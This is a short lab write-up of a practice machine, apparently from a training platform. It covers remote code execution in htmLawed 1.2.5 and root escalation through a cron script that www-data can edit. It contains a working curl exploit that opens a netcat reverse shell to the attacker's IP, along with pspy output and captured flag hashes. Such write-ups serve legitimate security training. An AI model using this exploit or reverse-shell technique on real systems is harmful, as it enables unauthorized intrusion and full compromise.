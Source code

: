 # Law \[Inter]

## Report

htmLawed version 1.2.5 is vulnerable to RCE via curl request. A script 'cleanup.sh' is run every minute as root which is editable by user 'www-data'. Append a reverse shell line to become root.

### Hint

Once linpeas output wasn't very promising, the next play is `pspy` - crontabs and `ps aux` only show authoirzed process snooping

## Cheatsheet

```
curl -s -d 'sid=foo&hhook=exec&text=busybox nc 192.168.49.56 8000 -e /bin/bash' -b 'sid=foo' http://192.168.56.190/index.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'

```

## Loot

### Enumeration

192.168.56.190

htmLawed (1.2.5) test vulnerable to RCE however, htmLawedtest.php not found so fuzz to find index.php which is our desired target

#### Software Installed

```
/usr/bin/base64                                                                                           
/usr/bin/curl
/usr/bin/nc
/usr/bin/nc.traditional
/usr/bin/netcat
/usr/bin/perl
/usr/bin/php
/usr/bin/ping
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget
```

### Attack Vectors

Straightforward RCE via curl request, however find the PHP endpoint manually cus we are not script kiddies lol

### PrivEsc

pspy is required

{% code title="Ripped it off" %}
```bash
<SNIP>
2025/08/04 16:57:01 CMD: UID=0     PID=23789  | /bin/sh -c /var/www/cleanup.sh 
2025/08/04 16:57:01 CMD: UID=0     PID=23790  | /bin/bash /var/www/cleanup.sh 
<SNIP>

-rwxr-xr-x  1 www-data www-data  125 Sep 25 00:14 cleanup.sh

```
{% endcode %}

### Creds

local.txt:77cda750298b7c4191c2edc83304a376

proof.txt:729f9f21aa991ef0e36e97185b94f9bd

### Proof
